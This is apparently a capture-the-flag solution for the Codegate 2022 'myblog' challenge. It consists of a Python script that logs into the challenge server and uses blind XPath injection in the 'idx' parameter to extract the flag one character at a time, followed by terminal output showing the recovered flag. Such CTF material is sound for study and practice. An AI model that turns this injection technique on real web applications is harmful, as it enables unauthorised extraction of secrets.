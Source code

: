 ```python
import requests

url = "http://3.39.79.180/blog/read?idx="
strings = "abcdefghijklmnopqrstuvwxyz0123456789{}"
sess = requests.Session()

def login():
    sess.post('http://3.39.79.180/blog/login', data={'id':'pocas', 'pw':'pocas'})
    print("[+] log-in succeed")

def leak():
    flag = ''
    for i in range(1, 100):
        for c in strings:
            u = url + f"'or substring(system-property('flag'),{i},1)='{c}'or '"
            res = sess.get(u).text
            if 'sdf' in res:
                flag += c
                break
        if len(flag) > 1 and flag[-1] == '}':
            break
    print(f'[+] FLAG : {flag}')

if __name__ == '__main__':
    print('[+] Exploit')
    login()
    leak()
```
```sh
 ⚡ root  ~/hacking/ctf/codegate2022/myblog  python3 exploit.py
[+] Exploit
[+] log-in succeed
[+] FLAG : codegate2022{bcbbc8d6c8f7ea1924ee108f38cc000f}
 ⚡ root  ~/hacking/ctf/codegate2022/myblog 
 ```

---
